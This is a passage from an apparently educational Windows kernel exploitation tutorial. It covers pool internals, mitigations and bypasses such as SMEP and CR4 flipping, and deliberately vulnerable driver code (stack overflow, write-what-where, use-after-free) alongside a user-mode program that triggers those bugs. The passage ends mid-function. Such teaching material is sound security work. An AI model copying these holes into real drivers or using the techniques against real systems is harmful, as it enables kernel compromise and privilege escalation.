The kernel uses **pool memory** for dynamic allocations, similar to how user-mode applications use the heap. Understanding pool memory is essential for exploiting pool-based vulnerabilities.

### Pool Types



### Pool Allocation Internals

```c
/*
 * How kernel drivers allocate pool memory:
 */

#include <ntddk.h>

// Legacy allocation (deprecated — executable memory!)
PVOID buffer_old = ExAllocatePoolWithTag(
    NonPagedPool,       // Pool type
    0x100,              // Size in bytes
    'Tag1'              // Pool tag (4 bytes, reversed in memory)
);

// Modern allocation (non-executable — preferred!)
PVOID buffer_new = ExAllocatePool2(
    POOL_FLAG_NON_PAGED,  // Pool flags
    0x100,                 // Size in bytes
    'Tag1'                 // Pool tag
);

// Usage
if (buffer_new) {
    RtlZeroMemory(buffer_new, 0x100);
    // ... use the buffer ...
    ExFreePoolWithTag(buffer_new, 'Tag1');
}
```

### Pool Header Structure

Every pool allocation has a header that precedes the actual data:

```text
Pool Allocation Layout:
┌──────────────────────────────────────────────┐
│  POOL_HEADER (16 bytes on x64)              │
│  ┌──────────────────────────────────────┐    │
│  │ PreviousSize  : 0x00                 │    │
│  │ PoolIndex     : 0x00                 │    │
│  │ BlockSize     : 0x10 (in 16-byte units)│  │
│  │ PoolType      : 0x02 (NonPagedPool)  │    │
│  │ PoolTag       : 'Tag1' (0x31676154)  │    │
│  └──────────────────────────────────────┘    │
├──────────────────────────────────────────────┤
│  OPTIONAL_HEADER (varies)                    │
│  Process billed, allocation info             │
├──────────────────────────────────────────────┤
│  USER DATA (your allocation)                 │
│  The actual buffer returned to the caller    │
│  Size: as requested                          │
├──────────────────────────────────────────────┤
│  PADDING (alignment)                         │
│  Ensures next allocation is 16-byte aligned  │
└──────────────────────────────────────────────┘
```

### Viewing Pool Allocations in WinDbg

```text
kd> !pool ffffe001`23456780
Pool page ffffe001`23456780 region is Nonpaged pool
 ffffe001`23456700 size:   80 previous size:    0  (Allocated)  Ntfx
 ffffe001`23456780 size:  100 previous size:   80  (Allocated) *MyTg
		Pooltag MyTg : My Driver Tag
 ffffe001`23456880 size:   50 previous size:  100  (Free)       ....
 ffffe001`234568d0 size:  130 previous size:   50  (Allocated)  File

kd> !poolfind MyTg
Searching NonPaged pool (ffffda80`00000000 : ffffda84`00000000) for Tag: MyTg

ffffe001`23456780 : size   100, type 02 - MyTg
ffffe001`23489a00 : size   100, type 02 - MyTg
ffffe001`2350bc80 : size   100, type 02 - MyTg
```

### Pool Overflow Exploit Concept

```mermaid
graph TB
    subgraph "Normal Pool Layout"
        A["Pool Header A<br/>Tag: VulN<br/>Size: 0x100"]
        B["Buffer A Data<br/>(Vulnerable Object)"]
        C["Pool Header B<br/>Tag: Targ<br/>Size: 0x80"]
        D["Buffer B Data<br/>(Target Object<br/>with function pointer)"]
    end

    subgraph "After Pool Overflow"
        E["Pool Header A<br/>Tag: VulN<br/>Size: 0x100"]
        F["Buffer A Data<br/>AAAAAAAAAAAAA<br/>AAAAAAAAAAAAA<br/>OVERFLOW ↓↓↓↓"]
        G["Corrupted Header B<br/>AAAAAAAAAAAAA"]
        H["Corrupted Buffer B<br/>Function Pointer →<br/>Shellcode Address!"]
    end

    A --- B
    B --- C
    C --- D

    E --- F
    F -.->|"Overflow!"| G
    G --- H

    style B fill:#3498db,stroke:#2980b9,color:#fff
    style D fill:#27ae60,stroke:#1e8449,color:#fff
    style F fill:#e74c3c,stroke:#c0392b,color:#fff
    style G fill:#e74c3c,stroke:#c0392b,color:#fff
    style H fill:#e74c3c,stroke:#c0392b,color:#fff
```

---

## Windows Kernel Drivers — The Biggest Attack Surface

Third-party kernel drivers (`.sys` files) are the **#1 source** of kernel vulnerabilities. They run with full kernel privileges but are often written with less security rigor than Microsoft's own code.

### Driver Architecture



### Vulnerable Driver Example

```c
/*
 * INTENTIONALLY VULNERABLE DRIVER
 * For educational purposes only!
 *
 * This driver has multiple vulnerabilities:
 * 1. Stack buffer overflow in IOCTL handler
 * 2. Arbitrary memory write primitive
 * 3. No input validation
 */

#include <ntddk.h>

#define DEVICE_NAME     L"\\Device\\VulnDriver"
#define SYMLINK_NAME    L"\\DosDevices\\VulnDriver"

// IOCTL codes
#define IOCTL_VULN_STACK_OVERFLOW  CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_NEITHER, FILE_ANY_ACCESS)
#define IOCTL_VULN_WRITE_WHAT_WHERE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x801, METHOD_NEITHER, FILE_ANY_ACCESS)
#define IOCTL_VULN_READ_MEMORY     CTL_CODE(FILE_DEVICE_UNKNOWN, 0x802, METHOD_NEITHER, FILE_ANY_ACCESS)

// Structure for write-what-where
typedef struct _WRITE_WHAT_WHERE {
    PVOID What;    // Value to write
    PVOID Where;   // Address to write to
} WRITE_WHAT_WHERE, *PWRITE_WHAT_WHERE;

/*
 * VULNERABILITY 1: Stack Buffer Overflow
 * The driver copies user input to a fixed-size stack buffer
 * without checking the size.
 */
NTSTATUS VulnStackOverflow(PIRP Irp, PIO_STACK_LOCATION IrpSp) {
    PVOID userBuffer = IrpSp->Parameters.DeviceIoControl.Type3InputBuffer;
    ULONG inputSize = IrpSp->Parameters.DeviceIoControl.InputBufferLength;

    // Fixed-size stack buffer — only 512 bytes!
    CHAR stackBuffer[512];

    DbgPrint("[VulnDriver] Stack overflow handler called\n");
    DbgPrint("[VulnDriver] Input size: %u bytes\n", inputSize);

    // BUG: No size check! If inputSize > 512, we overflow the stack!
    RtlCopyMemory(stackBuffer, userBuffer, inputSize);

    DbgPrint("[VulnDriver] Data copied to stack buffer\n");

    return STATUS_SUCCESS;
}

/*
 * VULNERABILITY 2: Write-What-Where
 * The driver writes an arbitrary value to an arbitrary kernel address.
 * This is an incredibly powerful primitive.
 */
NTSTATUS VulnWriteWhatWhere(PIRP Irp, PIO_STACK_LOCATION IrpSp) {
    PWRITE_WHAT_WHERE writeInput;

    writeInput = (PWRITE_WHAT_WHERE)IrpSp->Parameters.DeviceIoControl.Type3InputBuffer;

    DbgPrint("[VulnDriver] Write-What-Where handler called\n");
    DbgPrint("[VulnDriver] Writing %p to address %p\n", writeInput->What, writeInput->Where);

    // BUG: No validation! Writes anywhere in kernel memory!
    *(PVOID*)(writeInput->Where) = writeInput->What;

    DbgPrint("[VulnDriver] Write completed\n");

    return STATUS_SUCCESS;
}

/*
 * VULNERABILITY 3: Arbitrary Read
 * The driver reads from any kernel address and returns it to user mode.
 */
NTSTATUS VulnReadMemory(PIRP Irp, PIO_STACK_LOCATION IrpSp) {
    PVOID readAddress = IrpSp->Parameters.DeviceIoControl.Type3InputBuffer;
    PVOID outputBuffer = Irp->UserBuffer;
    ULONG outputSize = IrpSp->Parameters.DeviceIoControl.OutputBufferLength;

    DbgPrint("[VulnDriver] Read memory handler called\n");
    DbgPrint("[VulnDriver] Reading %u bytes from %p\n", outputSize, readAddress);

    // BUG: No validation! Reads from any kernel address!
    RtlCopyMemory(outputBuffer, *(PVOID*)readAddress, outputSize);

    Irp->IoStatus.Information = outputSize;
    return STATUS_SUCCESS;
}

/*
 * IOCTL Dispatch Handler
 */
NTSTATUS DriverIoControl(PDEVICE_OBJECT DeviceObject, PIRP Irp) {
    NTSTATUS status = STATUS_INVALID_DEVICE_REQUEST;
    PIO_STACK_LOCATION irpSp = IoGetCurrentIrpStackLocation(Irp);

    UNREFERENCED_PARAMETER(DeviceObject);

    switch (irpSp->Parameters.DeviceIoControl.IoControlCode) {
        case IOCTL_VULN_STACK_OVERFLOW:
            status = VulnStackOverflow(Irp, irpSp);
            break;
        case IOCTL_VULN_WRITE_WHAT_WHERE:
            status = VulnWriteWhatWhere(Irp, irpSp);
            break;
        case IOCTL_VULN_READ_MEMORY:
            status = VulnReadMemory(Irp, irpSp);
            break;
        default:
            DbgPrint("[VulnDriver] Unknown IOCTL: 0x%X\n",
                     irpSp->Parameters.DeviceIoControl.IoControlCode);
            break;
    }

    Irp->IoStatus.Status = status;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return status;
}

/*
 * Driver Entry Point
 */
NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath) {
    NTSTATUS status;
    PDEVICE_OBJECT deviceObject;
    UNICODE_STRING deviceName, symlinkName;

    UNREFERENCED_PARAMETER(RegistryPath);

    RtlInitUnicodeString(&deviceName, DEVICE_NAME);
    RtlInitUnicodeString(&symlinkName, SYMLINK_NAME);

    // Create device
    status = IoCreateDevice(
        DriverObject, 0, &deviceName,
        FILE_DEVICE_UNKNOWN, 0, FALSE, &deviceObject
    );
    if (!NT_SUCCESS(status)) return status;

    // Create symbolic link
    IoCreateSymbolicLink(&symlinkName, &deviceName);

    // Set dispatch routines
    DriverObject->MajorFunction[IRP_MJ_CREATE] = DriverCreateClose;
    DriverObject->MajorFunction[IRP_MJ_CLOSE]  = DriverCreateClose;
    DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = DriverIoControl;
    DriverObject->DriverUnload = DriverUnload;

    DbgPrint("[VulnDriver] Driver loaded successfully!\n");
    return STATUS_SUCCESS;
}
```

### Communicating with a Driver from User Mode

```c
/*
 * User-mode exploit communicating with the vulnerable driver
 */

#include <windows.h>
#include <stdio.h>

#define IOCTL_VULN_STACK_OVERFLOW   0x222000  // CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_NEITHER, FILE_ANY_ACCESS)
#define IOCTL_VULN_WRITE_WHAT_WHERE 0x222004
#define IOCTL_VULN_READ_MEMORY      0x222008

typedef struct _WRITE_WHAT_WHERE {
    PVOID What;
    PVOID Where;
} WRITE_WHAT_WHERE;

int main() {
    // Step 1: Open handle to the driver
    HANDLE hDevice = CreateFileA(
        "\\\\.\\VulnDriver",       // Device symbolic link
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );

    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open device. Error: %d\n", GetLastError());
        printf("[-] Make sure the driver is loaded!\n");
        return 1;
    }

    printf("[+] Device handle obtained: %p\n", hDevice);

    // Step 2: Trigger stack overflow
    printf("[*] Triggering stack buffer overflow...\n");

    char overflow_buffer[1024];
    memset(overflow_buffer, 'A', sizeof(overflow_buffer));

    DWORD bytesReturned;
    BOOL result = DeviceIoControl(
        hDevice,
        IOCTL_VULN_STACK_OVERFLOW,
        overflow_buffer,
        sizeof(overflow_buffer),  // 1024 bytes > 512 byte buffer = overflow!
        NULL,
        0,
        &bytesReturned,
        NULL
    );

    if (result) {
        printf("[+] IOCTL sent successfully (stack overflow triggered!)\n");
    } else {
        printf("[-] IOCTL failed. Error: %d\n", GetLastError());
    }

    // Step 3: Use write-what-where primitive
    printf("[*] Using write-what-where primitive...\n");

    WRITE_WHAT_WHERE www;
    www.What  = (PVOID)0xDEADBEEFDEADBEEF;  // Value to write
    www.Where = (PVOID)0xFFFFF80012345678;   // Target kernel address

    result = DeviceIoControl(
        hDevice,
        IOCTL_VULN_WRITE_WHAT_WHERE,
        &www,
        sizeof(www),
        NULL,
        0,
        &bytesReturned,
        NULL
    );

    if (result) {
        printf("[+] Write-what-where executed!\n");
    }

    CloseHandle(hDevice);
    return 0;
}
```

---

## I/O Request Packets (IRPs)

**IRPs** are the fundamental data structures used for communication between user-mode applications and kernel-mode drivers. Understanding IRPs is critical for finding and exploiting driver vulnerabilities.

### IRP Flow



### IRP Structure (Simplified)

```text
IRP (I/O Request Packet):
┌─────────────────────────────────────────┐
│ +0x000  Type / Size                     │
│ +0x008  MdlAddress (for direct I/O)     │
│ +0x010  Flags                           │
│ +0x018  AssociatedIrp                   │
│         └── SystemBuffer (buffered I/O) │
│ +0x030  IoStatus (result)               │
│ +0x038  RequestorMode (User/Kernel)     │
│ +0x040  Cancel flag                     │
│ +0x060  UserBuffer (output buffer)      │
│ +0x078  Tail                            │
│         └── IO_STACK_LOCATION           │
│             ├── MajorFunction (IRP_MJ_*)│
│             ├── Parameters              │
│             │   ├── InputBufferLength   │
│             │   ├── OutputBufferLength  │
│             │   └── IoControlCode       │
│             └── DeviceObject            │
└─────────────────────────────────────────┘
```

### I/O Transfer Methods

Drivers can receive user data in three different ways. Each has different security implications:

```c
/*
 * The three I/O methods in Windows drivers
 * and their security implications
 */

// Method 1: METHOD_BUFFERED (Safest)
// I/O Manager copies user buffer to kernel buffer (SystemBuffer)
// Driver works with kernel copy — no direct user memory access
#define IOCTL_SAFE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)

// Method 2: METHOD_IN_DIRECT / METHOD_OUT_DIRECT
// Uses MDL (Memory Descriptor List) for large transfers
// Kernel locks user pages and creates MDL
#define IOCTL_DIRECT CTL_CODE(FILE_DEVICE_UNKNOWN, 0x801, METHOD_IN_DIRECT, FILE_ANY_ACCESS)

// Method 3: METHOD_NEITHER (Most Dangerous!)
// Raw user-mode pointers passed directly to driver
// Driver must validate everything manually
// Most vulnerable — user can pass kernel addresses!
#define IOCTL_DANGEROUS CTL_CODE(FILE_DEVICE_UNKNOWN, 0x802, METHOD_NEITHER, FILE_ANY_ACCESS)
```



> Most kernel driver vulnerabilities exist in `METHOD_NEITHER` IOCTL handlers where the driver fails to properly validate user-supplied pointers and sizes. Always look for `METHOD_NEITHER` when auditing drivers.
{: .prompt-danger }

---

## Kernel Security Mitigations

Modern Windows has many security features that make kernel exploitation much harder. Understanding these is essential for modern exploit development.

### Mitigation Overview



### SMEP (Supervisor Mode Execution Prevention)

SMEP prevents the kernel (Ring 0) from executing code located in user-mode (Ring 3) memory pages. This was introduced in Intel Ivy Bridge CPUs.

```text
Before SMEP:
┌──────────────────────────────┐
│ Kernel Mode (Ring 0)          │
│ Exploit redirects execution ──────────┐
│ to user-mode shellcode        │        │
└──────────────────────────────┘        │
                                        ↓
┌──────────────────────────────┐
│ User Mode (Ring 3)            │
│ Attacker's shellcode HERE ←───────── Executed! ✓
└──────────────────────────────┘


After SMEP:
┌──────────────────────────────┐
│ Kernel Mode (Ring 0)          │
│ Exploit redirects execution ──────────┐
│ to user-mode shellcode        │        │
└──────────────────────────────┘        │
                                        ↓
┌──────────────────────────────┐
│ User Mode (Ring 3)            │
│ Attacker's shellcode HERE ←───────── BLOCKED! ✗ (BSOD)
└──────────────────────────────┘        CPU raises #PF exception
```

**SMEP is controlled by bit 20 of the CR4 register:**

```text
CR4 Register:
Bit 20 = SMEP flag
  0 = SMEP disabled (kernel CAN execute user-mode code)
  1 = SMEP enabled  (kernel CANNOT execute user-mode code)

kd> r cr4
cr4=00000000001506f8

Binary: 0001 0101 0000 0110 1111 1000
                ^
                Bit 20 = 1 (SMEP enabled)
```

**SMEP bypass techniques:**

| Technique | Description |
|-----------|-------------|
| **ROP in kernel** | Build ROP chain using kernel gadgets (ntoskrnl.exe) |
| **Flip CR4 bit** | Use ROP to clear SMEP bit in CR4 (detected by KPP) |
| **Kernel code reuse** | Only use existing kernel code (no user-mode execution) |
| **Data-only attacks** | Modify kernel data structures instead of executing code |

### SMAP (Supervisor Mode Access Prevention)

SMAP prevents the kernel from **reading or writing** user-mode memory. This blocks kernel exploits that rely on placing controlled data in user-mode memory.

```nasm
; Without SMAP: Kernel can freely read user-mode data
; With SMAP: Kernel must use special instructions (STAC/CLAC) or
;            copy functions (ProbeForRead/ProbeForWrite) to access user memory

; STAC - Set AC flag (temporarily disable SMAP)
; CLAC - Clear AC flag (re-enable SMAP)

; In legitimate kernel code:
stac                    ; Disable SMAP temporarily
mov rax, [user_addr]    ; Read from user-mode address
clac                    ; Re-enable SMAP
```

### VBS and HVCI

**Virtualization-Based Security (VBS)** uses the hypervisor to create an isolated memory region that even the kernel cannot access. **Hypervisor-enforced Code Integrity (HVCI)** ensures only signed code can execute in the kernel.



### Checking Enabled Mitigations

```powershell
# Check HVCI status
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard

# Check VBS status
(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\DeviceGuard" -Name EnableVirtualizationBasedSecurity -ErrorAction SilentlyContinue).EnableVirtualizationBasedSecurity

# Check Secure Boot
Confirm-SecureBootUEFI

# Check all security features
Get-ComputerInfo | Select-Object -Property *guard*, *virtualization*, *secure*
```

**Using WinDbg to check CPU mitigations:**

```text
kd> r cr4
cr4=00000000003506f8

kd> .formats 00000000003506f8
Binary:  00000000 00000000 00110101 00000110 11111000
         Bit 20 (SMEP) = 1 ✓ (Enabled)
         Bit 21 (SMAP) = 1 ✓ (Enabled)
         Bit 7  (PGE)  = 1 ✓ (Enabled)

kd> vertarget
Windows 10 Kernel Version 19041 MP (8 procs) Free x64
Built by: 19041.1.amd64fre.vb_release.191206-1406
Machine Name:
Kernel base = 0xfffff802`0a000000 PFN = 0x1000
```

### Mitigation Timeline

| Year | Mitigation | What It Prevents |
|------|-----------|-----------------|
| 2006 | **KASLR** | Predictable kernel addresses |
| 2010 | **SMEP** (CPU) | Kernel executing user-mode code |
| 2012 | **Kernel Pool hardening** | Pool metadata corruption |
| 2013 | **PatchGuard v3+** | Kernel code/structure patching |
| 2014 | **SMAP** (CPU) | Kernel accessing user-mode data |
| 2015 | **kCFG** (Control Flow Guard) | Invalid indirect calls in kernel |
| 2016 | **VBS / HVCI** | Unsigned kernel code execution |
| 2019 | **kCET** (Shadow Stacks) | ROP attacks in kernel |
| 2020 | **Kernel Data Protection** | Kernel data corruption (VBS) |
| 2022 | **Kernel Indirect Branch Tracking** | JOP/COP attacks |

> Each new mitigation raised the bar for kernel exploitation. Modern Windows 11 with VBS/HVCI enabled requires incredibly sophisticated techniques to exploit. **Data-only attacks** (modifying kernel data structures without executing attacker code) are now the primary approach.
{: .prompt-warning }

---

## Common Kernel Vulnerability Classes

### Overview of Vulnerability Types

```mermaid
graph TB
    A[Kernel Vulnerability Classes] --> B[Memory Corruption]
    A --> C[Logic Bugs]
    A --> D[Race Conditions]
    A --> E[Information Disclosure]

    B --> B1[Stack Overflow]
    B --> B2[Pool/Heap Overflow]
    B --> B3[Use-After-Free]
    B --> B4[Integer Overflow]
    B --> B5[Type Confusion]

    C --> C1[Improper Access Checks]
    C --> C2[TOCTOU Bugs]
    C --> C3[Missing Validation]
    C --> C4[Arbitrary Write Primitives]

    D --> D1[Double Fetch]
    D --> D2[Shared Resource Races]

    E --> E1[Kernel Address Leak]
    E --> E2[Uninitialized Memory]
    E --> E3[Pool Data Leak]

    style A fill:#34495e,stroke:#2c3e50,color:#fff
    style B fill:#e74c3c,stroke:#c0392b,color:#fff
    style C fill:#f39c12,stroke:#e67e22,color:#fff
    style D fill:#8e44ad,stroke:#7d3c98,color:#fff
    style E fill:#3498db,stroke:#2980b9,color:#fff
```

### 1. Stack Buffer Overflow

The kernel stack has limited size (typically 12-24 KB). Overflowing it can overwrite the return address.

```c
/*
 * Stack Buffer Overflow in kernel driver
 */
NTSTATUS VulnerableHandler(PVOID UserBuffer, ULONG UserSize) {
    CHAR kernelBuffer[256];  // Fixed-size stack buffer

    // BUG: No bounds check!
    // If UserSize > 256, we overflow the stack
    RtlCopyMemory(kernelBuffer, UserBuffer, UserSize);

    return STATUS_SUCCESS;
}
```

**Exploitation visualization:**

```text
Stack Layout (before overflow):
┌─────────────────────┐ High Address
│ Return Address       │ ← We want to overwrite this!
├─────────────────────┤
│ Saved RBP            │
├─────────────────────┤
│ kernelBuffer[255]    │
│ ...                  │
│ kernelBuffer[0]      │ ← Buffer starts here
├─────────────────────┤
│ Other local vars     │
└─────────────────────┘ Low Address

Stack Layout (after overflow):
┌─────────────────────┐ High Address
│ 0xDEADBEEF (Shellcode addr) │ ← Overwritten return address!
├─────────────────────┤
│ AAAAAAAAAAAAAAAA     │ ← Overwritten saved RBP
├─────────────────────┤
│ AAAAAAAAAAAAAAAA     │
│ AAAAAAAAAAAAAAAA     │ ← Overflow data (A's)
│ AAAAAAAAAAAAAAAA     │
├─────────────────────┤
│ Other local vars     │
└─────────────────────┘ Low Address
```

### 2. Use-After-Free (UAF)

A kernel object is freed, but a pointer to it still exists and is later used.

```c
/*
 * Use-After-Free in kernel driver
 */

typedef struct _MY_OBJECT {
    ULONG Type;
    ULONG Size;
    PVOID Callback;  // Function pointer!
} MY_OBJECT, *PMY_OBJECT;

// Global pointer to the object
PMY_OBJECT g_Object = NULL;

NTSTATUS AllocateObject() {
    g_Object = (PMY_OBJECT)ExAllocatePoolWithTag(
        NonPagedPool, sizeof(MY_OBJECT), 'ObjA'
    );
    g_Object->Type = 1;
    g_Object->Size = sizeof(MY_OBJECT);
    g_Object->Callback = LegitimateFunction;
    return STATUS_SUCCESS;
}

NTSTATUS FreeObject() {
    ExFreePoolWithTag(g_Object, 'ObjA');
    // BUG: g_Object is NOT set to NULL after freeing!
    // g_Object = NULL;  ← This line is missing!
    return STATUS_SUCCESS;
}

NTSTATUS UseObject() {
    // BUG: Uses g_Object without checking if it's been freed!
    if (g_Object) {
        // If memory was reclaimed and attacker controls it,
        // Callback now points to attacker's shellcode!
        ((void(*)())g_Object->Callback)();  // ← Use-After-Free!
    }
    return STATUS_SUCCESS;
}
```

**UAF exploitation flow:**



### 3. Write-What-Where (Arbitrary Write)

An arbitrary write primitive lets you write any value to any kernel address. This is extremely powerful.

```c
/*
 * Write-What-Where vulnerability
 * Found in many real-world drivers
 */

typedef struct _WRITE_INPUT {
    ULONG64 Value;    // What to write
    ULONG64 Address;  // Where to write it
} WRITE_INPUT;

NTSTATUS ArbitraryWrite(PIRP Irp, PIO_STACK_LOCATION IrpSp) {
    PWRITE_INPUT input = (PWRITE_INPUT)IrpSp->Parameters.DeviceIoControl.Type3InputBuffer;

    // BUG: No validation of the target address!
    // Attacker can write to ANY kernel memory address
    *(PULONG64)(input->Address) = input->Value;

